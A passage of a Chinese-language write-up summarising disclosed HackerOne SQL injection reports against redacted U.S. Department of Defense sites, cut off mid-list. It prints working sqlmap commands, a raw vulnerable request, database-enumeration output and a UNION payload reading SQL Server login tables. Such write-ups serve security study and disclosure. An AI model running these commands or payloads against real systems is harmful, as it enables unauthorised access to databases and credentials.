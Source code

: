    - 使用 `sqlmap` 进行自动化利用：

     ```
     sqlmap -u "https://██████/0*" --technique=T --dbms=mysql --time-sec=15
     ```

   - **参数说明**：

     - `--technique=T`：指定时间盲注技术。
     - `--time-sec=15`：设置基准延迟时间。

### 6. GET|普通回显注入

[U.S. Dept Of Defense | Report #1628408 - SQL Injection at https://████████.asp (█████████) [selMajcom\] [HtUS] | HackerOne](https://hackerone.com/reports/1628408)

1. **基础验证**

   - **原始请求**：

     ```
     GET /█████mil/AFServices/RequestAccess.asp?selMajcom=MAT*&selbase=MXRD&Submitted=1 HTTP/1.1
     Host: ██████████.████.net
     ```

   - **正常响应**：返回与 `MAT*` 匹配的军事单位列表（HTTP 200）。

2. **自动化注入验证**

   - **保存请求文件**：将包含 Cookie 和参数的请求保存为 `dod.txt`。

   - **使用 sqlmap 攻击**：

     ```
     sqlmap -r dod.txt --dbs --level 3 --risk 3 -v3
     ```

   - **攻击结果**：

     ```
     available databases [24]:
     [*] ActivityManager         -- 活动管理数据库
     [*] AFServicesUsers         -- 空军服务用户凭证库
     [*] BaseProjects            -- 军事基地项目数据
     [*] W2DATA                  -- 工资及税务记录
     [*] ██████████              -- 敏感军事资产数据库（名称脱敏）
     ...
     ```

3. **手动注入验证**

   - **Payload 构造**：

     ```
     GET /RequestAccess.asp?selMajcom=MAT' UNION SELECT user,name FROM sys.sql_logins-- 
     ```

   - **攻击逻辑**：
